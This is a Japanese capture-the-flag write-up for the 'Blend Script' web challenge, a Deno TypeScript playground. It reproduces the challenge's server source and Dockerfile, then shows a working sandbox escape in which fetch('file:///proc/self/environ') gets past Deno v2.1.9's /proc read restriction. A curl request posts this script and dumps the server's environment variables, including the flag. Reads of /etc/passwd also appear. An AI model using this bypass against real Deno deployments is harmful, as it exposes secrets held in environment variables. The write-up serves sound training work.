




# Blend Script:Web:XXXXpts
TypeScriptを安全に実行できる環境を作りました！  
[https://blend-script.web.cpctf.space/](https://blend-script.web.cpctf.space/)  
[blend-script.zip](blend-script.zip)  

**Hint1**  
スクリプトはDenoでファイルの読み取り権限のみが与えられた状態で実行されるようです。  
**Hint2**  
Linuxには、様々な情報にファイルとしてアクセスできる仕組み (procfs) があります。  
**Hint3 (解法)**  
環境変数にflagがありますが、`--allow-env`が設定されていないので`Deno.env.get("FLAG")`などでは読むことができません。そこで`/proc/self/environ`から環境変数を読み取ることを考えましょう。`--allow-read`だけだと基本的に`/proc`以下を読めないよう対策されていますが、Deno v2.1.9までは`fetch`を使ったときのチェックに漏れがあるのでこれを使うことで読めます。  
```typescript
const res = await fetch("file:///proc/self/environ")
const text = await res.text()
console.log(text.replaceAll("\0", "\n")) // /proc/self/environはnull文字で区切られている
```

# Solution
URLとソースが渡される。  
アクセスするとTypeScriptを実行できるPlaygroundのようだ。  
  
ソースのmain.tsは以下であった。  
```ts
import { serveFile } from "jsr:@std/http@1.0.14";

const decoder = new TextDecoder();
const encoder = new TextEncoder();

Deno.serve(async (req) => {
  const pathname = new URL(req.url).pathname;

  if (pathname === "/") {
    return serveFile(req, "./index.html");
  }

  if (pathname === "/execute") {
    if (!req.body) {
      return new Response("Please provide a body", { status: 400 });
    }

    const json = await req.json();
    await using process = new Deno.Command(Deno.execPath(), {
      args: [
        "run",
        "--allow-read",
        "-",
      ],
      env: {
        "NO_COLOR": "1",
      },
      stderr: "piped",
      stdin: "piped",
      stdout: "piped",
    }).spawn();
    let status = 200;
    let error: string | undefined = undefined;
    const timeoutID = setTimeout(() => {
      status = 408;
      error = "Script execution timed out";

      process.kill();
    }, 1000);

    const writer = process.stdin.getWriter();

    await writer.ready;
    writer.write(encoder.encode(json.script));
    await writer.close();

    const cmdOutput = await process.output();

    clearTimeout(timeoutID);

    let output: string | undefined = undefined;

    // タイムアウトしていない場合
    if (!error) {
      output = decoder.decode(cmdOutput.stdout);
      error = decoder.decode(cmdOutput.stderr);

      if (error) {
        status = 400;
      }
    }

    return new Response(JSON.stringify({ output, error }), { status });
  }

  return new Response("Not found", { status: 404 });
});
```
`--allow-read`がついているためファイルが読めそうだ。  
Dockerfileは以下のようで、環境変数にフラグがある。  
```Dockerfile
# syntax=docker/dockerfile:1
FROM denoland/deno:distroless-2.1.9

COPY index.html main.ts /app/
WORKDIR /app/
EXPOSE 8000
ENV FLAG="CPCTF{dummy_flag}"

CMD ["run", "--allow-net", "--allow-read", "--allow-run=deno", "./main.ts"]
```
試しに`console.log(await Deno.readTextFile("main.ts"));`を行うと中身が読み取れる。  
[run0.png](site/run0.png)  
`console.log(await Deno.readTextFile("/etc/passwd"));`も通る。  
[run1.png](site/run1.png)  
ただし、`console.log(await Deno.readTextFile("/proc/self/environ"));`とすると以下のようなエラーが出る。  
  
`error: Uncaught (in promise) NotCapable: Requires all access to "/proc/self/environ", run again with the --allow-all flag`とある。  
`/etc/`以下は読めているため、`/proc/`以下だけ特殊な制限があるようだ。  
ここで、エラーの内容がわかる場合`import "/proc/self/environ"`でファイルを読みだすテクニックを思い出す。  
  
Errorにうまく環境変数が出てきているが、`FLAG=CPCTF{Y...`とちょうどフラグが省略されている。  
では、よくある`fetch`はどうかと思い付く。  
`fetch("file:///proc/self/environ").then((data) => data.text()).then((res) => console.log(res));`とする。  
  
うまくOutputに環境変数が出ている。  
折り返しがなくNULLバイトも含まれており、見づらいのでcurlで取得する。  
```bash
$ curl -X POST https://blend-script.web.cpctf.space/execute -d '{"script":"fetch(\"file:///proc/self/environ\").then((data) => data.text()).then((res) => console.log(res));"}'
{"output":"DENO_DIR=/deno-dir/\u0000DENO_INSTALL_ROOT=/usr/local\u0000DENO_VERSION=2.1.9\u0000FLAG=CPCTF{YOU_can_rEad_3VeryTh1NG_4s_4_Fil3}\u0000HOME=/root\u0000HOSTNAME=235b3f80b97e\u0000NO_COLOR=1\u0000PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\u0000SSL_CERT_FILE=/etc/ssl/certs/ca-certificates.crt\u0000\n","error":""}
```
flagが得られた。  

## CPCTF{YOU_can_rEad_3VeryTh1NG_4s_4_Fil3}